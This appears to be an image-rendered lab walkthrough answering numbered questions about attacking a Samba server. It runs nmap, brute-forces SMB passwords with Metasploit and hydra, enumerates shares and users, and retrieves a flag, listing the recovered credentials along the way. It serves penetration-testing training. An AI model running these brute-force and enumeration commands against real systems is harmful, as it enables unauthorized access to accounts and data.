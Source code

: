 ```bash
john@kali> ip a
john@kali> ping 192.235.130.3
john@kali> nmap 192.235.130.3
john@kali> nmap 192.235.130.3 -p 139,445 -sV

# 1. What is the password of user “jane” required to access share “jane”?
#    Use smb_login metasploit module with password wordlist usr/share/wordlists/metasploit/unix_passwords.txt
john@kali> msfconsole
msf5> use scanner/smb/smb_login
msf5> set rhosts 192.235.130.3
msf5> set smbuser jane
msf5> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf5> run
msf5> exit

# 2. What is the password of user “admin” required to access share “admin”?
#    Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt
john@kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.235.130.3 smb

# 3. Which share is read only? Use smbmap with credentials obtained in question 2.
john@kali> smbmap -H 192.235.130.3 -u admin -p password1

# 4. Is share “jane” browseable? Use credentials obtained from the 1st question.
john@kali> smbmap -H 192.235.130.3 -u jane -p abc123

# 5. Fetch the flag from share “admin”
john@kali> smbclient -U admin \\\\192.235.130.3\\admin
smb> cd hidden
smb> get flag.tar.gz
smb> exit
john@kali> tar -xvf flag.tar.gz
john@kali> cat flag

# 6. List the named pipes available over SMB on the samba server?
#    Use pipe_auditor metasploit module with credentials obtained from question 2.
john@kali> msfconsole
msf5> use scanner/smb/pip_auditor
msf5> set rhosts 192.235.130.3
msf5> set smbuser admin
msf5> set smbpass password1
msf5> run
msf5> exit

# 7. List sid of Unix users shawn, jane, nancy and admin respectively
#    by performing RID cycling  using enum4Linux with credentials obtained in question 2.
john@kali> enum4linux -u admin -p password1 -r 192.235.130.3
```

Credentials :
